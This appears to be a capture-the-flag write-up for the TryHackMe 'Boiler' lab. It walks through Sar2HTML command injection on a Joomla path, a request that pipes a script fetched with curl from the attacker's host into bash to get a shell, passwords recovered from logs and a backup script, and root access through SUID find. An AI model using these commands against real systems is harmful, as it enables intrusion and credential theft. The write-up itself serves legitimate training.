 ```yaml
---
title: Boiler CTF
description: 'sar2html Remote Code Execution on a Joomla site and find has an suid bit set'
pubDate: 2021-06-27
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/4a800c6513239dbdfaf74ce869a88add.jpeg'
---
```


## ENUM
Found `/joomla` and `/manual` on the root

```bash
gobuster dir --url http://10.10.47.127/joomla/ --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -o gobust-joomla.txt
```

Sar2HTML on `/joomla/_test/`.
https://packetstormsecurity.com/files/153858/Sar2HTML-3.2.1-Remote-Command-Execution.html

## RCE
http://10.10.47.127/joomla/_test/index.php?plot=;id <- command

## SHELL
```
GET /joomla/_test/index.php?plot=;curl+10.8.200.250:8000/r.sh|bash HTTP/1.1
Host: 10.10.47.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=gtt9ioln5ialbc4r48rt6n22ve
Upgrade-Insecure-Requests: 1

```

## USER

```bash
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```
basterd:superduperp@$$

```bash
ssh basterd@10.10.47.127 -p 55007
```

```bash
cat /home/basterd/backup.sh

...[snip]...
USER=stoner
#superduperp@$$no1knows
...[snip]...
```

## USER 2
stoner:superduperp@$$no1knows

```bash
ssh stoner@10.10.47.127 -p 55007
```

### USER.TXT ?
```bash
stoner@Vulnerable:~$ cat .secret
You made it till here, well done.
```

```bash
find / -perm /4000 -executable 2>/dev/null
...[snip]...
/usr/bin/find
...[snip]...
```

```bash
find . -exec cat /root/root.txt \;
```
It wasn't that hard, was it?
